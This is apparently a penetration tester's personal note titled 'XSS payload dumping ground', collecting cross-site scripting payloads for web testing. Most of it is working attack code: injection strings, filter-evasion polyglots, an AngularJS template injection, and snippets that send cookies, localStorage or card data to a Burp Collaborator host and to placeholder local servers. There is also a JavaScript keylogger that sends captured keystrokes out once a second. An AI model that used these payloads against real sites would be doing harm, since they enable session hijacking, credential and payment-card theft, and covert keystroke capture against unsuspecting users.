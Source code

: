 is:: [[vulnerability]]
from:: [[hacking web services]]

# Notes
XSS payload dumping ground

## HTML injection (without XSS)
```
<b>hacking</b>
<img src="https://cdn.pixabay.com/photo/2017/03/08/19/39/hacked-2127635__180.png"></img>
```

## Quick snippets
```
<script>alert(123)</script>
“><script>alert(document.cookie)</script>
<SCRIPT SRC=http://xss.rocks/xss.js></SCRIPT>
javascript:/*--></title></style></textarea></script></xmp><svg/onload='+/"/+/onmouseover=1/+/[*/[]/+alert(1)//'>
<iframe onload=alert(1)></iframe>
<IMG SRC=/ onerror="alert(1)"></img>
<IMG SRC=/ onerror="alert(JSON.stringify(window.localStorage))"></img>
$.get(encodeURI("http://127.0.0.1:8000/stolen_creds?" + JSON.stringify(window.localStorage)
<iframe frameBorder="0" height="1" width="1" onload=$.getScript("http://127.0.0.1:8000/evil.js")></iframe>foo
<iframe/src=javascript:alert(1)>
<iframe/src=javascript:console.log('foo')>
<iframe/src=http://localhost:8000/evil.html>
```

# Angular JS
```
{{constructor.constructor('alert(1337)')()}}
```

# Ask for webcam permissions
```
<script>
if (navigator.mediaDevices.getUserMedia) {
  navigator.mediaDevices.getUserMedia({ video: true })
    .then(function (stream) {
      alert("Thanks for sharing your webcam with the security team!")
    })
    .catch(function (error) {
      alert("We'll get you another way!")
    });
}
</script>
```

# Emoji payload
```
"><script>alert("💻👿😀")</script>
```

# Data extraction
Cookies: `document.cookie`
Domain: `document.domain`
Localstorage: `JSON.stringify(window.localStorage)`

## Extracting from localStorage
Extracting key and subkeys
```
JSON.parse(window.localStorage.getItem('key')).subkey
```

# Data exfiltration
## Post to webhook
Requires jQuery
```
$.get(encodeURI("http://127.0.0.1:8000/stolen_creds?"+JSON.stringify(window.localStorage)))
```

## Via redirect
Simple, but the redirect could give things away (unless in an iframe)
```
window.location.href='http://localhost:8000/steal?'+myPayload
```

## post data via ajax
- [Using JQuery to access an AWS API Gateway (CORS) – Andrea Lettieri – Medium](https://medium.com/@peorth/using-jquery-to-access-a-aws-api-gateway-cors-afa11fd27f2a)

```
$.ajax({
  type: "POST",
  url: "http://6jqafzvzx85atjuqim2gq5gjsay0mp.burpcollaborator.net",
  crossDomain: true,
  data: cc_data,
  contentType: "application/json",
  dataType: "json",
  success: function(data, status) {
    alert("CC successfully stolen.\nData: " + data + "\nStatus: " + status);
  }
});
```

# Cheat sheets
* https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
* http://www.xss-payloads.com/payloads-list.html?a#category=all
* https://netsec.expert/posts/xss-in-2021/

# Javascript keylogger
https://github.com/JohnHoder/Javascript-Keylogger/blob/master/keylogger.js
```
var keys='';
var url = 'http://127.0.0.1:8000/keylogger?c=';

document.onkeypress = function(e) {
	get = window.event?event:e;
	key = get.keyCode?get.keyCode:get.charCode;
	key = String.fromCharCode(key);
	keys+=key;
}
window.setInterval(function(){
	if(keys.length>0) {
		new Image().src = url+keys;
		keys = '';
	}
}, 1000);
```
# XSS Polyglots
* https://chefsecure.com/courses/xss/recipes/polyglots-the-ultimate-xss-payloads
* https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot

```
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```

# Javascript Payload Sites
http://www.xss-payloads.com/payloads-list.html?a#category=all

# Owasp
https://owasp.org/www-community/xss-filter-evasion-cheatsheet

